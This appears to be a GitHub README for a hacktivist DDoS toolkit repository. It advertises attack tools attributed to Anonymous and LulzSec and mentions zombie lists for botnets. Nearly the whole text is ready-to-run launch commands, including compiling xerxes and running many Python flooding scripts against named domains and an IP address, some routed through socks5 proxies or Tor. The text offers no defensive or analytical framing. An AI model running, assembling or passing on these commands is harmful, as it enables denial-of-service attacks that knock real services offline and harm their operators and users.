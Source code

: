 # LulZSeCDdos
This repository brings together the best Ddos Tools created by Anonymous, LulzSeC 
and other Hacktivists, including txt with zombies to use in Botnets

XerXers
gcc xerxes.c -o xerxes
./xerxes www.coñazo.org.il 80

python2.7  Cannabis.py http://landser.com
python2.7  bot.py http://landser.com
python2.7  eco.py http://landser.com
python2.7  exploit.py -t 63.141.128.8 -r 1000 -T 1000 -p 443     (service tor start)
python2.7  god.py http://landser.com  socks5.txt
python2.7 'httpdoser(1).py' http://landser.com
python2.7 httpdoser.py  http://landser.com
python2.7 Keni.py  http://landser.com
python2.7 m60.py  http://landser.com
python2.7 MH.py  http://landser.com
python2.7 MITNICK.py  63.141.128.8 443 65500 
python2.7  Sadattack.py http://landser.com
python2.7  Saphyra.py http://landser.com 

anonsec
python3 anonsec.py
0
https://pollazo.com
y
1
800
100
enter
